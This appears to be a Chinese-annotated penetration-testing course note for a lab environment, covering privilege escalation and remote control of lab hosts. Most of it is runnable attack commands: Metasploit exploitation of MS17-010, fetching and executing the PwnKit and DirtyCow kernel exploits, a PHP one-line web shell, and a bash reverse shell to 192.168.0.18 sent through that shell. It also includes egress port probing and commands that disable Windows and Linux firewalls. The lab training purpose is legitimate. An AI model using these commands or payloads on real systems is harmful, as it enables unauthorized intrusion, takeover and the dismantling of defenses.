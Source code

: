 Penetration Test - Privilege Escalation
===

🔙 [MENU README](../README.md)


# iLab
Module 6 
```
Parrot Security       192.168.0.18    172.19.19.18
Windows Server 2019   192.168.0.20
Windows Server 2008   192.168.0.7, 21
SSH Server            192.168.0.70
WordPress             192.168.0.24
```

---

> PayloadsAllTheThings
> https://github.com/swisskyrepo/PayloadsAllTheThings

# MS17-010
Detect and Scan
```bash

nmap 192.168.0.7 -sVC -n -Pn
# 發現port 445

nmap 192.168.0.7 -sVC -n -Pn -p445 --script smb-protocols.nse
# 對 port 445深度探測，發現版本smb v1
# SMBv1 有 MS17_010 漏洞

nmap 192.168.0.7 -sVC -n -Pn -p445 --script smb-vuln-ms17-010.nse
# 針對 MS17_010 漏洞 進行探測


# Nmap中的Script : ls /usr/share/nmap/scripts/
```
Metasploit
```bash
msfconsole -q # without banner

# set paylaod
msf > search ms17_010
msf > use 2
msf > show options
msf > set rhosts 192.168.0.7
msf > check
msf > exploit  # Attack Success when see "WIN"


# WIN
getuid  # Server username: NT AUTHORITY\SYSTEM
shell
whoami
```

# Sudo
```bash
# su    切換至目標帳號/需要目標帳號密碼
# sudo  預授權
#        是否需要驗證(自己的密碼)
#        路徑、檔名、參數  ex. /bin/target -i


sudo -l
# (ALL:ALL) ALL

sudo -i
# 直接提權
```
```bash
# 去百科全書查找
GTFOBins
```

# PwnKit
低版本Kernel的通殺提權
> https://github.com/ly4k/PwnKit
```bash
# Version Check
uname -a

wget https://github.com/ly4k/PwnKit/raw/main/PwnKit
wget https://github.com/ly4k/PwnKit/raw/main/PwnKit32

# Pass1
sudo python3 -m http.server 80
wget 192.168.0.18/PwnKit
# Pass2
scp PwnKit aleksander@192.168.0.70:~/. #dolphin

# 一般kernel exploit希望執行的路徑有寫入權限
# /tmp是不錯的選擇
chmod +x PwnKit && ./PwnKit
```

# DirtyCow
```bash
# 更低版本的Linux : Linux Kernel 2.6.22 < 3.9
# https://www.exploit-db.com/exploits/40847
searchsploit -m 40847

# Pass1
sudo python3 -m http.server 80
wget 192.168.0.18/40847.cpp
# Pass2
scp 40847.cpp aleksander@192.168.0.70:~/.

# how to use : head 40847.cpp
g++ -Wall -pedantic -02 -std=c++11 -pthread -o dcow 40847.cpp -lutil
./dcow -s
```


# Egress Busting (Remote Control)
Ubuntu(Wordpress)一句話木馬
```bash
# shell.php
<?php system($_GET['cmd']); ?>

curl 192.168.0.24/shell.php?cmd=id
curl -G 192.168.0.24/shell.php --data-urlencode "cmd=id"
# -G : get

# Get Remote Control
nc -vnlp 8888
curl -G 192.168.0.24/shell.php --data-urlencode "cmd=bash -c 'bash -i > /dev/tcp/192.168.0.18/8888 0<&1 2>&1'"
```
Reverse Shell的形成
```bash
# shell
BASH 、 DASH 、ZSH
# shell I/O fild descripter
fd 0  stdin
fd 1  stdout
fd 2  stderr

pidof bash
ls - l /proc/98793/fd
# 觀察:
# 當process運行時會產生一PID，相對的會映射fd到目錄

# ==============================================

# console
tty : 只存在於本機
pty : 遠端模擬tty
# console I/O
stdin  0
stdout 1
stderr 2

python2
python2 --version 2> /dev/null
# 觀察 : 
# python2其實是把版號是把輸出放在stderr
```
```bash
bash -i > /dev/tcp/192.168.0.18/8888 0<&1 2>&1

bash -i : 互動
>       : 1>    將這台機器的BASH的stdout到socket
0<&1    : 0<fd1 將這台機器的BASH的stdin來源設定為stdout
          但前面已經設定stdout來自socket
2>&1    : 將這台機器的BASH的stderr導向BASH的stdout
          但前面已經設定stdout來自socket

至此所有目標機器上的輸出入都跟socket對接起來
```
Test 可以用來反彈的port
```bash
# Attacker
sudo tcpdump -ni eth0 tcp[13]==2

# Victim
echo > /dev/tcp/192.168.0.18/100
for port in {200..210};do (echo > /dev/tcp/192.168.0.18/$port) 2> /dev/null;done
```

---


# Persistent
Windows
```bash
# Display Firewall Setting
netsh advf show allprofiles

# 禁用防火牆
netsh firewall set opmode disable # old version
netsh advf set allprofiles state off # new version
```
Linux
```bash
# Display iptables Setting
sudo iptables -S

sudo iptables -P INPUT ACCEPT  #允許所有INBOUND
sudo iptables -P OUTPUT ACCEPT #允許所有OUTBOUND

sudo iptables -F #flush所以有防火牆規則
# 不建議，因為很多靶機其實預設是全擋
```